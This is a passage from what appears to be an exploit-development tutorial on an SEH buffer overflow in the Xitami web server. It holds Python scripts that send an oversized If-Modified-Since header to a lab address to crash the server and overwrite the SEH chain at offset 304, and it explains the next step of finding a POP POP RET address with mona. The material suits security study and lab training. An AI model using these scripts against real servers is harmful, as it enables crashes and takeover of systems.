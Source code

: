 ```python
req += "Accept-Language: en-US,en;q=0.5\r\n"
req += "Accept-Encoding: gzip, deflate\r\n"
req += "Connection: close\r\n"
req += "Upgrade-Insecure-Requests: 1\r\n"
req += "If-Modified-Since: Wed, " + crash + "\r\n\r\n"

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host, port))
s.send(req)
s.close()
```

This also nets us our crash and we can see that we have overwritten both 4 byte components of the SEH chain. 

![](/assets/images/CTP/SEHxitami.JPG)

## POP POP RET

At this point we know the drill. First we have to find our offset to the SEH overwrite and then let mona find us a `POP POP RET` address. Mona tells us that our offset is at 304. Let's ensure we are correct and send the following payload:
```python
import socket
import sys

host = "192.168.1.201"
port = 80

seh = "BBBB"
nseh = "CCCC"

#PO @ 304
crash = "A" * 304
crash += nseh
crash += seh
crash += "D" * (1000 -len(crash))


req = "GET / HTTP/1.1\r\n"
req += "Host: 192.168.1.201\r\n"
req += "User-Agent: Mozilla/5.0 (X11; Linux i686; rv:60.0) Gecko/20100101 Firefox/60.0\r\n"
req += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
req += "Accept-Language: en-US,en;q=0.5\r\n"
req += "Accept-Encoding: gzip, deflate\r\n"
req += "Connection: close\r\n"
req += "Upgrade-Insecure-Requests: 1\r\n"
req += "If-Modified-Since: Wed, " + crash + "\r\n\r\n"

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host, port))
s.send(req)
s.close()
```

